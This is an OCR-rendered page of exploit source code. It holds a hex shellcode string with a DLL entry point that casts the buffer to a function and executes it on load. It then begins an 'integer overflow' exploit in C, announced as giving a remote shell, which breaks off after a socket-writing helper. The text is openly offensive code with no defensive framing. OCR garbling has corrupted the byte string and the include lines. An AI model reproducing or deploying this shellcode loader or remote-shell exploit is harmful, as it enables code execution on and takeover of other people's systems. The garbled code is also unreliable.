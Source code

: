 &quot;x21×98x42×03x51×0ex59×36x6fx8dxcax74xfax6ex45&quot;
&quot;x1dx97×67x4bx6fxc2xa6xebxe2×6dxc0×1axe7xaex0b&quot;
&quot;x40xc5xbex68×96xbbx8exe3×0fx6exb4×4ex25×14xe0&quot;
&quot;xd0xa4×5ex63xeaxb6xecx72×47xbbxf2×2dx24xcexa1&quot;
&quot;x5dx4fx3bx15xf7×43x09×8dx49×29xa6×4exf2×38xcc&quot;
&quot;x9cx3fx40×37x0dx9dxe6×85x77xb4×01xf8×66x3fx0a&quot;
&quot;x04×88x79×50xebx51xa7xf6×13x98×88xe5×92x8bx5d&quot;
&quot;xc4×69x69xdbx3ax19×03xf8xf5xdex75×17x75×1dxd3&quot;
&quot;x80×55xd3×72xcbxd5×04x7cx2dxbdxddx09xeex44×57&quot;
&quot;x5ax72×31xacxfbx9bxf9×5fx59xb0xfd&quot;;
BOOL WINAPI DllMain (
HANDLE hinstDLL,
DWORD fdwReason,
LPVOID lpvReserved)
{
int (*func)();
func = (int (*)()) buf;
(int)(*func)();
return 0;
}


--------------------------------------------------------------
Integer overflow
THIS CODE SHOULD GIVE A REMOTE SHELL:

- include <errno.h>
- include <fcntl.h>
- include <netinet/in.h>
- include <stdio.h>
- include <stdlib.h>
- include <string.h>
- include <sys/socket.h>
- include <sys/types.h>
- include <unistd.h>
 
int sendFull(int socketFd, char *data, int length) {
  int   result;
 
  while(length) {
    result=write(socketFd, data, length);
    if(result<=0) {
      if(errno==EAGAIN) continue;
      fprintf(stderr, "Write failed, result %d, error %d(%s)\n",
          result, errno, (char*)strerror(errno));
      return(-1);
    }
    data+=result;
    length-=result;
  }
  return(0);
}
 
int main(int argc, char **argv) {
  int   argPos;
 